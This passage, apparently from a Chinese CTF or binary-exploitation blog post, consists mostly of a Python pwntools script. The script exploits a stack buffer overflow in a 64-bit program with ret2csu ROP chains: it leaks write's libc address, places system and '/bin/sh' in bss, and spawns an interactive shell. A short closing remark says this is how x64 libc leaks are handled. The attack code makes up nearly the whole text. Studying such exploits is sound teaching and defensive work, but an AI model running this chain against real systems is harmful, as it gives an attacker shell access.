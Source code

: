 ```python
print "write_libc= " + hex(write_libc)
system_libc = libc.symbols['system']
print "system_libc= " + hex(system_libc)
bin_sh_libc = libc.search('/bin/sh').next()
print "bin_sh_libc= " + hex(bin_sh_libc)

#get the address of write
payload1 = 'a'*0x88  + p64(0x4011e2) + p64(0) + p64(1) + p64(write_got) + p64(1) + p64(write_got) + p64(8)
payload1 += p64(0x4011c8) + 'd' * 56 + p64(main)

sh.recvuntil("Hello, World\n")
sh.sendline(payload1)
sleep(0.5)

write_addr = u64(sh.recv(8))
print "write_addr= " + hex(write_addr)
sleep(0.5)

#get the address of system and bin_sh
payload2 = 'a'*0x88 + p64(0x4011e2) + p64(0) + p64(1) + p64(read_got) + p64(1) + p64(bss) + p64(16) + p64(0x4011c8) + 'd'*56 + p64(main)
sh.sendline(payload2)
sh.send(p64(system_libc + write_addr - write_libc))
sh.send("/bin/sh\0")
sleep(0.5)
sh.recvuntil("Hello, World\n")

#activate the system("/bin/sh")
payload3 = 'a'*0x88 + p64(0x4011e2) + p64(0) + p64(1) + p64(bss) + p64(bss+8) + p64(0x4011c8) + 'd' *56 + p64(main)
sh.sendline(payload3)
sh.interactive()
```
&emsp;&emsp;至此，一个华丽的利用已经完成了.  

> 以上是对x64libc泄漏的处理方式

#### 书山又路勤为径,学海无涯苦做舟










